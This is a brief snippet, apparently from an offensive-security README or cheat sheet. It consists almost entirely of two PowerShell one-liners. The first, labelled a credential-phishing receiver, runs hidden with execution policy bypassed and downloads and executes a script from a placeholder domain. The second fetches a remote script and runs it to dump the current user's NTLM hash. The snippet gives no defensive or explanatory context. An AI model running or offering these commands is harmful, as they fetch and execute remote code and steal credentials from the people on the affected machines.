 
Credphish receiver:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get NTLM-hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```

